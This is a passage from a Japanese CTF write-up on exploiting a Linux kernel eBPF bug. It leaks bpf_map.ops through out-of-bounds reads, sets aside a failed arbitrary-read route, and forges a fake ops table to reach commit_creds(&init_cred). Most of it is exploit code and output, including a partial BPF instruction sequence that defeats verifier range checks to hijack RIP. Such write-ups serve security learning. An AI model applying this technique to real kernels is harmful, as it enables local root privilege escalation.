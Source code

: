 厳密にmapから`ops`までのオフセットを計算するのは面倒くさいため適当に検討をつけてみてみると、以下のようになる。
```leak-bpf_map-ops.c
  int N=0x80;
  for(int ix=N/8; ix!=N/8+8; ++ix){
    printf("[%d] 0x%lx\n", ix*0x8, read_rel(ix*0x8));
  }
 
 / # ./mnt/exploit
[128] 0xa00000008
[136] 0x400000002
[144] 0xffffffff81a12100 <-- こいつ
[152] 0x0
[160] 0x0
[168] 0x0
[176] 0x0
[184] 0x0
```
 
# AAR via bpf_map_get_info_by_id() [FAIL]
以前解いた[eebpf](https://smallkirby.hatenablog.com/entry/2021/01/31/210158)では、`bpf_map.btf`を書き換えて`bpf_map_get_info_by_id()`を呼び出すことでAARを実現できた。だが上の`bpf_map`構造体を見て分かるとおり、**bpf_map.bfpというメンバは存在していない**。kernelが古いからね...。というわけで、この方法によるAARは諦める。
 
# forge ops and commit_creds(&init_cred) directly
本問では、上述したようにmap自体のアドレスを容易にleakすることができる。また、`bpf_map`の全てを自由に書き換えることができる。よって、mapの中にfake function tableを用意しておいて、`bpf_map.ops`をこれに向ければ任意の関数を実行させることができる。取り敢えず、以下のようにするとRIPが取れる。
```rip-poc.c
  const ulong fakeops_addr = controlmap_addr + 0x10;
  int N = 0x90;
  struct bpf_insn reader_insns[] = {
    /* get cmap[0] */
    BPF_LD_MAP_FD(BPF_REG_1, control_map),              // r1 = cmap
    BPF_MOV64_REG(BPF_REG_2, BPF_REG_FP),               // r2 = rbp
    BPF_ALU64_IMM(BPF_ADD, BPF_REG_2, -0x8),            // r2 -= 8
    BPF_ST_MEM(BPF_DW, BPF_REG_2, 0, 0),                // qword[r2] = 0
    BPF_ST_MEM(BPF_DW, BPF_REG_2, -8, 0),
    BPF_EMIT_CALL(BPF_FUNC_map_lookup_elem),            // r0 = map_lookup_elem(cmap, 0)
    BPF_JMP_IMM(BPF_JNE, BPF_REG_0, 0, 1),              // jmp if r0!=0
    BPF_EXIT_INSN(),
    BPF_LDX_MEM(BPF_DW, BPF_REG_6, BPF_REG_0, 0),       // r6 = cmap[0] (==0)
    BPF_MOV64_REG(BPF_REG_9, BPF_REG_0),                // r9 = &cmap[0]
    BPF_MOV64_REG(BPF_REG_8, BPF_REG_0),                // r8 = &cmap[0]
    /* get cmap[1] */
    BPF_LD_MAP_FD(BPF_REG_1, control_map),              // r1 = cmap
    BPF_MOV64_REG(BPF_REG_2, BPF_REG_FP),               // r2 = rbp
    BPF_ALU64_IMM(BPF_ADD, BPF_REG_2, -0x8),            // r2 -= 8
    BPF_ST_MEM(BPF_DW, BPF_REG_2, 0, 1),                // qword[r2] = 1
    BPF_EMIT_CALL(BPF_FUNC_map_lookup_elem),            // r0 = map_lookup_elem(cmap, 1)
    BPF_JMP_IMM(BPF_JNE, BPF_REG_0, 0, 1),              // jmp if r0!=0
    BPF_EXIT_INSN(),
    BPF_LDX_MEM(BPF_DW, BPF_REG_7, BPF_REG_0, 0),       // r7 = cmap[1] (==1)
    /* fix r6/r7 range */
    BPF_JMP_IMM(BPF_JSGE, BPF_REG_6, 0, 2),              // ensure R6>=0
    BPF_MOV64_IMM(BPF_REG_0, 0),
    BPF_EXIT_INSN(),
    BPF_JMP_IMM(BPF_JSGE, BPF_REG_6, 2, 1),              // ensure 0<=R6<=1
    BPF_JMP_IMM(BPF_JA, 0, 0, 2),
    BPF_MOV64_IMM(BPF_REG_0, 0),
    BPF_EXIT_INSN(),
    BPF_JMP_IMM(BPF_JSGE, BPF_REG_7, 0, 2),              // ensure R7>=0
    BPF_MOV64_IMM(BPF_REG_0, 0),
    BPF_EXIT_INSN(),
```